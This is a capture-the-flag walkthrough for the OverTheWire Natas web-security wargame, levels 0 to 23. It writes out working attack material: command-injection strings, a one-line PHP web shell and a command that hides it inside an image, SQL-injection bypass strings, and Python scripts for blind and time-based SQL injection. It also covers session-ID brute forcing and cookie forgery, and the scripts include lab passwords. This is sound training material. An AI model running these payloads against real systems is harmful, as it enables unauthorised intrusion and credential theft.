# Level 0

On the borwser, we type the URL **http://natas0.natas.labs.overthewire.org/** and provide the username **natas0** and password **natas0** as mentioned in the war game description.


# Level 1

To start with, we check the page source by right-clicking and choosing **view page source**.


The password is stated clearly as a comment on the line 16.

# Level 2

The problem with this level is that you can't right-click on it to go to the page source. But since I'm using **FireFox**, it allowed me to right-click it without any issue. But when I tried it with **Chrome** or **Edge**, it prompted me with an alert messag saying I can't use right-click. Anyway, the solution is to write right before the **URL** the key word **"view-source:"** .


The password is commented on line 17.

# Level 3

After checking the page source, we can see on line 15 that it is getting an image named **pixel.png** from a folder calld **files/**. Let's check that folder by typing it in the **URL**


We have infront of us two accessible files. One is that image and the other is a txt file.


After clicking on it, it revealed a list of users and their password. Among them, the user **natas3**.


# Level 4

After checking the page source, there is a comment that says Goofle will not find it. That's a hint !

Google uses cralwers to crawl over links and paths of the web. To prevent it from going certain paths, we write these paths on a file called **robots.txt**. So let's check it.


The disallowed path is **/s3cr3t/**.


Folloing it, we find the **users.txt** file like the previous level.


**users.txt** revealed the credentials for the user **natas4**.


# Level 5

We are not allowed to access the page and it tells that it is expecting access from another webpage. This brings us to the concept of **Referer** (yes, an R is missing) which tells from where we came. Let's assume we are on website A and there is a link to website B. When we click it it gets us to website B with the **Referer** holding the website A as we came from there.

To solve this, let's intercept the request right before clicking the **refresh** link and change our **Referer**.


As you can see, the **Referer** field is set to **"http://natas4.natas.labs.overthewire.org/"**. So let's change it to **"http://natas5.natas.labs.overthewire.org/"** and hit **Forward** button.


# Level 6

We are disallowed. Source page didn't reveal anything useful. So let's look around for anything suspecious.

Checking the **Cookies**, we can spot an interesting one named **loggedin** with a value of **0**.


In many programming languages, 0 reffers to False and any other number reffers to True. So let's try changing that cookie's value to 1 and then refreshing the page.


# Level 7

Here we need a secret phrase. Viewing the page source didn't give us anything useful but following the link provided gave as an extra part in the source code which is a php code. This code can be read only by the server that's why we couldn't see it when checking source page on our own.

That piece of code started with including a specific file from a specific folder. so let's follow it by typing it on the **URL** above.


It gave us a blank page. But viewing its source page gave us the secret phrase.


Typing that secret phrase in the input field will grant us access and reveal the next password.


# Level 8

The hint provided in source page is that the password is listed in **/etc/natas_webpass/natas8**. And when follow links for **Home** or **About**, we can clearly see in the url above that it ends with **index.php?page=** followd by our destination. So let's try to replace the destination by **/etc/natas_webpass/natas8**.



# Level 9

Following the same process in **level 7**. We find some php code. It gae us the secret in its encrypted form along with the function of the encyrption which is **bin2hex(strrev(base64_encode($secret)))**. So basically, it takes the secret as input and converts it to base64 then reverses the result and finally it converts the final result to hex.



To decrypt it, we can revert the process using **CyberChef** by converting from Hex then reversing and finally converting from Base64.



And voilà! We get the secret that will grant us access to the password.


# Level 10

Here, it takes our input and put it directly in a shell command without sanitization to search for it with **grep** command in a file called **directory.txt**.



We can exploit it by making our input a valid command and seperate it from the rest of the command that it is intented to be added to it with th use of semicolon **" ; "**. For exapmle, typing **" ; whoami ; "** will print us the current user.



So let's get the password by typing **" ; cat /etc/natas_webpass/natas10 ; "**.



# Level 11

Here, it did some sanitazion to the input. It no longer accepts input that contains **;** or **&** or **|**.



We can cleverly exploit the **grep** command to search not only in the **dictionary** file but also in **/etc/natas_webpass/natas11** file.

Fortunatly, **grep** can accepts multiple files to look into after specifying the strings to look for. So what we can do is make our input in this form : **" {s} /etc/natas_webpass/natas11 "** where **{s}** will be replaced with strings to look for. And with that, it will search for the existance of **{s}** in **dictionary.txt** and **/etc/natas_webpass/natas11**.

Following the pattern of passwords, we know for sure that it contains numbers so let's replace **{s}** with numbers from 0 to 9 until we get a result.

We got a result with 1. so the input **" 1 /etc/natas_webpass/natas11 "** will give us the password.



# Level 12

After understanding the php code in the source code, we can see that it does the following process :

- It creates an array that contains **showpassword** with the value of **no** and **bgcolor** with the value of **#ffffff** and store it in variable named **defaultdata**
- It has a function of encryption that encrypts by xoring with a key text character by character. The key text is not stated plainly.
- It has a function that loads data from cookie : It grabs the cookie that holds **data** key, decode it from base64, decrypt it, turns it from string to a decoded json then extract from its keys (which are **showpassword** and **bgcolor**) the corresponding values and outputs them in an array. The decryption is made by encrypting again because xoring twice will get you to the same result.
- It has a function to save data data by feeding an array and doing the whole process of json decoding, encrypting, base64 encoding and setting it to the cookie **data**.
- Finally, it checks if the key **showpassword** of the current encrypted **data** cookie has a value of **yes**, it will show as the password.

So basically we need to change the value of the cookie to what it desires but we need it to be encrypted the way it wants with its unknown key. What we have are two things : the **defaultdata** array which is **array( "showpassword"=>"no", "bgcolor"=>"#ffffff")** and the encrypted base64 encoded version of its json encoded string which is **" HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg "** which can be taken from the value of the cookie **data** and removing the **" %3D "** because it just means **" = "** but url encoded. Anyway, these two are enough for us to find the key because if the first xored with key gave us the second, xoring the first with the second will give us the key !

So let's write a similar php code to do the same encypting but changing the key with json encoded version of the **defaultdata** array and encrypt the value of **data** cookie.

```php
<?php

function xor_encrypt($in) {
    $key = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo xor_encrypt(base64_decode("HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg"))
?>
```



As you can see, it outputs 4 characters that are repeated multiple times which is expected because initialy it used modulo operation to go through the key letters multiple times. Anyway, the key is these 4 characters.

Now, we change our encryption function with the actual key and encrypt the json encoded version of the desired array (which holds the value **yes** to the key **showpassword**) and of course code it in base64.



Injecting that resulted string in **data** cookie and refreshing the page will give us the password.



# Level 13

Going through the source code, what it does is that it take our uploaded file and change its name with a randomly generated one and then it saves it in **upload/** folder and even provides us its link.

Obviously, we are going to craft a web shell as an input which will allow us to inject commands and get output from teh web's server.

I googled for a simple one line php payload and settled with the following :

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```

And it will allow us to inject the command in the url above after "**.php?=cmd**".
So let's craft it in a **.php** file (that I named rev.php) and upload it.



The problem is after uploading it, it changes its extension from **.php** to **.jpg** which will prevents its job.



And that's because it set the name randomly (as we said earlier) from the very beginning and replace our file's name, including its extension, with the generated name. This is where it is done :



So to prevent it from changing our extension, after the page is loaded and before uploading our file, we need to change the **HTML** code and specifically change the extenstion of the generated name in that line from **.jpg** to **.php**.



Let's upload now and follow the link to open our reverse web shell.

Let's verify if the payload is working correctly by adding to the url : **" ?cmd=whoami "**.



Cool ! Now let's inject the command **" cat /etc/natas_webpass/natas13 "** to get the next password. But first, we need to URL-encode it. In our case, all we need to is replace that space with **" %20 "**. If you want to make sure, you can hope quickly to CyberChef and URL-encode that command.

Anyway, here is the result :



# Level 14

Now, it checks if we uploaded a legit image so we can't simply throw a php payload. So let's get ourselves a real image and inject in it the payload !

The image needs to be really tiny with a size under 1Kb to be accepted so let's download a small white pixel. Here is a nice website to do so : https://commons.wikimedia.org/wiki/File:1x1.png

Now how can we inject our payload in that image ? Well, each image has a field named **Comment** that can hold strings without affecting the image itself. So let's comment our payload in that image with **exiftool** command. Then, we need to rename our image to hold **.php** extension rather than **.png** so it can work properly

```console
$ exiftool -Comment='<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>' 1x1.png
$ mv 1x1.png 1x1.php
```



Let's run **exiftool** on our new file to check if it is still interpreted as a legit image.

```console
$ exiftool 1x1.php
```



As you can see, it stated that the file type is PNG and the the file type extension is png. It even printed out its comment which is our payload. So let's give it a try!

But don't forget to change the extension from .jpg to .php in HTML code as we did earlier.



It got uploaded successfully. Let's follow its link and type **" ?cmd=whoami "** to test it.



It outputs the result at the start of the last line. Cool !

Let's give it the real deal : **" ?cmd=cat%20/etc/natas_webpass/natas14 "**



# Level 15

Here, we can do some basic SQL injection. Based on the source code, the input is not sanitized so we can manipulate the SQL querry with whatever input we give it.

If we leave the username empty and type {**" or "1" = "1**} in the password, the querry will be interpreted like this

```sql
SELECT * from users where username="" and password="" or "1" = "1"
```

That **{or "1" = "1"}** part makes the statement true whatever the username and password are. And thus, it will select everything in the table and bypass that if statement (that checks if we selected at leat one row) correctly.





# Level 16

Here, it created a table that contains two columns : **username** and **password**. It asks us for the username as an input and checks if it exists in the table and tells us the result. If we blindly type **natas16**, it will state that it exists which is normal since we are seekings its password.

In this level, we can't get any hardcoded information. All we can get is a yes or no answer depending on the correctness of our input.

Since it is not sanitizing our input, we can just check for certain characters in the username instead of the whole word like checking if the first letter is **"n"**.

To do so, we can write **{" or substring(username, 1, 1) = 'n' -- }** in the input field and normally it will ouputs a positive response. Don't forget to add space after -- (which stand for commenting everything that follows it) otherwise it won't work.

We can do the same process on **password** column by comparing every letter with all the possible matches and collect the ones that gave positive response. This way, we can craft the password. This approach is called **Blind Injection**.

We will be hunting the corresponding password for the username **natas16** already found by the key word **"and"**.

Let's create a python script to auatomate the job.

```python
# Import the requests library for making HTTP requests
import requests
# Import string for accessing ASCII letters and digits
import string

# Character set for the password (a-z, A-Z, 0-9)
charset = string.ascii_letters + string.digits
# Expected length of the password which is 32 if we follow the patterns of previous passwords
password_length = 32
# Initialize empty string to build the password
password = ""

# Create a session to maintain authentication across requests
session = requests.Session()
# Set HTTP Basic Authentication with username and password
session.auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

# Iterate through each count (1 to 32) to build the password substring
for count in range(1, password_length + 1):
    # Flag to track if a matching character is found for the current count
    found = False
    # Test each character in the charset
    for char in charset:
        # Craft the SQL injection payload
        # Format: natas16" and binary substring(password,1,count)="password + char" --
        # - binary ensures case-sensitive comparison
        # - substring(password,1,count) extracts password from 1 to count
        # - Compares with current password + guessed character
        # - # comments out the rest of the query
        payload = f'natas16" and binary substring(password,1,{count})="{password}{char}" # '
        # Create data dictionary for POST request with username parameter as mentioned in source code
        data = {"username": payload}
        # Send POST request with the payload
        response = session.post("http://natas15.natas.labs.overthewire.org/index.php", data=data)

        # Check if the response indicates a successful match
        if "This user exists" in response.text:
            # Add the matching character to the password
            password += char
            # Print the current count, character, and partial password
            print(f"Count {count}: {char} (Current: {password})")
            # Set flag to indicate a match was found
            found = True
            # Exit the character loop to move to the next count
            break
        else:
            # Print the character being tried (for debugging progress)
            print(f"Tried char: {char}")

    # If no character matched, stop the script
    if not found:
        print(f"Failed to find character at count {count}. Stopping.")
        break

# Print the final extracted password
print(f"Final password: {password}")
```

**Side Note:** substring is not enough because it is not case-sensitive so we need to use **binary** keyword before it.

Anyway, running this code will provide us the password.



# Level 17

Here things got difficult. Besides that the input is well sanitized, it is putting it between ' ' in the command so whatever we input it will get converted as a string. But what we can do is taking advantage of **\$** character as it allows us to write bash commands. For instance, \*\$(whoami)** will be converted by the output of the command which is the user name, **\$(echo hello)** will be replaced by the output of echo command which is **hello**. But even so, there is nothing much we can do as, again, whatever command we write, its output will be interpreted as a string to grep it in the **dictionary.txt\*\* file.

One clever solution is based on that when we feed it a blank text, it would return everything in the **dictionary.txt** file. This can be proven by feeding **$(echo )** in the input field which will be converted by an empty **" "** and will output to us a long list of words.

The idea is following the solution of the previous level to blindly guess the password by using **grep** command to check the existance of certain words (which will be automatically constructed from every possible character). If a feeded word exists, the grep command will be converted by the whole word which will be grepped by the original command in **dictionary.txt** and normally it won't find a match and so ouptuts nothing. If the feeded word doesn't exist, the grepp command will ouputs nothing which will eventually outputs everything from **dictionary.txt**.

To test if it works correctly, let's enumarte the existance of numbers in **/etc/natas_webpass/natas17** by the input **$(cat {n} /etc/natas_webpass/natas17)** and changing {n} with numbers from 0 to 9.

For 0, 1 and 2, it outputed nothing but for 3, it outputed everything. So we know that 0, 1 and 2 exists in the password and 3 does not.

To check the existance of the pattern at the start of the word, we use the symbole **^** as **^abc** will retrun every word that starts with **abc**.

Now, let's build a script to automate the search.

```python
import requests
import string

charset = string.ascii_letters + string.digits
password_length = 32
password = ""

session = requests.Session()
session.auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

for count in range(1, password_length + 1):
	found = False
	for char in charset:
		payload = f'$(grep ^{password}{char} /etc/natas_webpass/natas17)'
		url = "http://natas16.natas.labs.overthewire.org/?needle=" + payload + "&submit=Search" # last time it was a POST request. Here, there is no POST methode in the source code and if you check the url after submitting your input, you'll find it in this format. So here we are dealing with GET methode.
		response = session.get(url)
		if("African" in response.text): #When we input nothing, the first word that pops up is African so let's use it as a checker
			print(f"Tried : {char}")
		else:
			password = password + char
			print(f'found a match at position {count} : {password}')
			found = True
			break
	if(found == False):
		print(f'Stopped: no match at position {count}')
		break
print(f'Final password : {password}')
```

After executing the code and waiting for a while, we get our password.



# Level 18

This level is similar to level 15. But if you check the source code carefully, you'd notice that the echo command lines are commented which means we get no response wether the typed username exists or no and thus, we can't really tell if our blind guess is correct or not.

What we can do here is rely on timing ! SQL has a built-in function that holds the code for some amount of time called **sleep()**. We can inject an sql querry using this function with this format :

```sql
SELECT * from users where username = "natas18" and binary substring(password, 1, {count})={password}{char} and sleep(5) #
```

and check if our guess is true by checking the response time of the session which depends on the time the querry took:

- if the blind guess is true, the substringing comparasion will be true and it will pass to the sleep function which will take 5 seconds before finishing the querry and thus the response time of the session will exceed 5 seconds.
- if the blind guess is false, the substringing comparasion will be false and since we are working with AND keyword, the querry will exit immediatly without executing the sleep function and thus the response time will be way shorter than 5 seconds.

Let's build the script.

```python
import requests
import string

charset = string.ascii_letters + string.digits
password_length = 32
password = ""

session = requests.Session()
session.auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")

for count in range(1, password_length + 1):
   found = False
   for char in charset:
       payload = f'natas18" and binary substring(password,1,{count})="{password}{char}" and sleep(5) # '
       data = {"username": payload}
       response = session.post("http://natas17.natas.labs.overthewire.org/index.php", data=data)

       if response.elapsed.total_seconds() > 4.9:
           password += char
           print(f"Count {count}: {char} (Current: {password})")
           found = True
           break
       else:
           print(f"Tried char: {char}")

   if not found:
       print(f"Failed to find character at count {count}. Stopping.")
       break

print(f"Final password: {password}")
```



# Level 19
Based on the source code, for the password to be revealed, we need for the value of **"admin"** in **$_SESSION** variable to be 1. The function **isValidAdminLogin()** would normally sets it to 1 if we log in with the username **admin**. But the part responsible for that is commented out so no matter what username we use, **"admin"** will always be set to 0.

**$_SESSION** is a superglobal array that stores data that needs to be persistent across pages. These data are saved on server which will provide ID to the client to keep track of the session's data. That ID is called **PHPSESSID** and we can find it in the cookies.

Normally, there was a time where a legit admin connected to the web and has his own legit session with his own ID. What we can do is guessing his ID and hijacking his session by changing the PHPSESSID cookie.

Based in the source code, it randomizes our ID between 1 and 640 so the admin ID must be in that interval. Let's bruteforce the value of PHPSESSID from 1 to 640 using Burp Suite : 
- Go to proxy and open the browser. Open the web and enter the credentials for **natas18**. 
- Enable interception and enter any random username and password then press forward.



- If you check the Request code on line 14, you'll see the cookie parameter which hold the PHPSESSID with the value of 361. Let's send the request to intruder to bruteforce that value (right-click on the request panel and click send to intruder).



- Go to the Intruder section. Select the value to be changed. Click **"add §"**. Set payload type to **numbers**. Set the range from 1 to 640. 



- Go to settings on the right vertical pannel. Scroll down to **Auto-pause attack**. Add the item **"You are an admin."** so it will stop when it finds in without checking for other numbers.

- Hit **Start Attack** and wait for the magic.



- As you can see, it stopped at 119. Let's change the cookie to that value, refresh and see the result.



# Level 20

This time, it says that the ID is no longer sequential. And if we log in with arbitrary credentials (mine were **admin** for username and **test** for password), we see that the ID value a string of 18 character from a-z and 0-9. In my case, it **"3332322d61646d696e"**.

Considering the character set it is using, it gave the vibe of being hex coded. So after decoding it, I found that it is translated from **"322-admin"**. Interesting.

My guess that with the right number in range from 1 to 640 and appending to it **"-admin"**, we will get the admin's session. But in ASCII hex version.

the **"-admin"** part is **2d61646d696e** in hex. And we need to prefix it with numbers from 1 to 640 in hex. Numbers are converted digit by digit and each digit is added 30 to it. So 0 is 30 in hex, 1 is 31, 9 is 39, 10 is 3130, 11 is 3131, 19 is 3139. We can write a python script that converts numbers to hex and add the the **"-admin"** suffix to them.

```python
for nb in range (1, 641):
        result = ""
        st = str(nb)
        for char in st:
                result += "3" + char
        result +=  "2d61646d696e"
        print(result)
```

After writing this code, we can output its result to file to be used as a payload list

```console
$ python3 list.py > payload.txt
```

Now we take this payload list to Burp Suite. After following the steps in the previous level, we choose **simple text** as payload type and load our generated list.



It stopped on attempt 281 with the payload **3238312d61646d696e**


Let's plug it in **SPHPSESSID** cookie and get in!



# Level 21

As previously, we need to have a key named **admin** in the **$_SESSION** variable with a value of 1. But this time, the code is running differently. Let's understand the source code.

After starting the session, the **session_set_save_handler()** will take care of the workflow of the code. First, it will execute the **myopen()**, which is empty, followed by **myread()**. The my **myread()** will open a file named after our session and reads its content line by line and for each line, it splits it per space and takes the first two strings where the first will be the key in the **$_SESSION** and the second will be the value. For exapmle, if the file has :
```
Bob 123
Alice 456
```
The final treatment to the **$_SESSION** will be :

```php
$_SESSION['Bob'] = 123;
$_SESSION['Alice'] = 456;
```

Then, it will execute the rest of code which is basically reading our input and putting it as a value to the key **"name""** in **$èSESSION** and exectuting the **print_credentials()** function.

Finally, it executes the **mywrite()** functions which will empty the file and fill it from start with the content of **$_SESSION**.

Now let's get to the exploitation part. The code sets **"name"** value in **$_SESSION** without sanitization from our input which will be written in the session file later. What we can do is forcing it to write a new line containing **"admin 1"**. That new line will later be appended as new key-value session.

Let's clarify the process :

- our input will be **"blabla\nadmin 1"**. We put **"\n"** to force it to write a new line.
- **myread()** will be exucted and read the content of the session file which doesn't exist as the first time connecting.
- Then **$_SESSION** will sets the value of **"name"** to our input so it will be :
```php
$_SESSION['name'] = blabla\nadmin 1
```
- The **print_credentials()** will be executed and since there is no **"admin"** key with value 1 yet, nothing special will happen.
- Finally, **mywrite()** will read the what **$_SESSION** holds in a form of key-value pair, add a space between them and **"\n** at the end of each pair and put the result in the session file. So the session file will have :
```
name blabla
admin 1
```

For now, we have no useful output. But if we do another request, the **myread()** function will run differently as now we have a session file with useful content. It will split it line by line, and for each line it will split it by space and take the first part as **$_SESSION** key and the second part as its value. So the **$_SESSION** now will look like this :

```php
$_SESSION['name'] = blabla;
$_SESSION['admin'] = 1;
```

And thus, the **print_credentials()** will output what we want.

The issue we rae left of is injecting the **"\n"** character in our input because the browser will not read it as the special new line character. What we can do is recurring to Burp Suite, intercepting the request and changing the request to what we desire. But don't forget to URL-Encode the input !



So the url encoded version of our input is **"blabla%0Aadmin%201"**.



After connecting to the web, let's enable interception, input whatever we want, proceeding the request, changing the "**name"** variable with our payload and hitting forward.

Now we can turn of the interception and run another request. And voilà !



# Level 22

Okay this level gave me real hard time and I'll explain why by the end of the solution.

So this level gives us a link to another website and it tells us that they are colocated which means they are both hosted on the same server and there is a chance they may share the same **$_SESSION** variable. Let's assume they does.

The first website that can provide us the password use the same technique before : it checks if there is a key in **$_SESSION** named **"admin"** and mapped with the value 1. But we here we have no way to change it.

As for the second website, its job is changing some CSS formatting and it uses **$_SESSION** for that by mapping key-value with tag-value. And it sets the values to the inputs we provide. Later, it check if there is a **Submit** request and if there is, it sets all the requests' keys and values to the **$_SESSION**'s keys and value. So what we can do is injecting an input to make another key-value and it will be processed as a request. We can use **Burp Suite** for efficient work.

Let's connect to the website with **Burp Suite** and enable interception. Click update and in the request scroll down where you'll see all the requests and simply add **"&admin=1"** around the **Submit** request.



Press forward. Now let's take the provided **PHPSESSID** cookie as it reffers to the **$_SESSION** we have just manipulated and let's put it in the first website cookie and hit refresh.

Now let's comeback to the part where it gave me a real pain in my you know what. Theorically, it would work normally and we'll see credentials. But no matter how I debug and try, it gave nothing. After spending the whole evening experimenting, I got to the conclusion that there is a timeout before the **$_SESSION** gets resetted or the link between the two websites expires or I don't know what exactly. But what I know for sure that it is a matter of timing. So changing the level's cookie and refreshing a bit late will revert our attempt. To solve this, you need to be really quick : Get the new cookie from a first attempt, change the cookie of the level and leave it like that, redo the interception and request changing, then quickly come back to the level website and hit refresh.



# Level 23

This level requires a key named **"revelio"** in **$_GET** variable which can be easily injected in the request URL. But it first checks the existance of **"admin"** in **$_SESSION** with the value 1. If there is no such thing, it will redirect us to the root path. Then, the code proceed and shows us the credentials if the **"revelio"** thing exists.

To bypass the redirection, we can use **Burp Suite**. Go to proxy and do the request normally, then send it to repeater where the magic happens. 

In the first line right after the **GET** keyword, add **"?revelio=blabla"** after the backslash to set the required key whatever value you'd like. And just hit send. The repeater will bypass the redirection by default. You can see the response in **pretty format** to see the password or move to **raw format** to copy it from line 30.

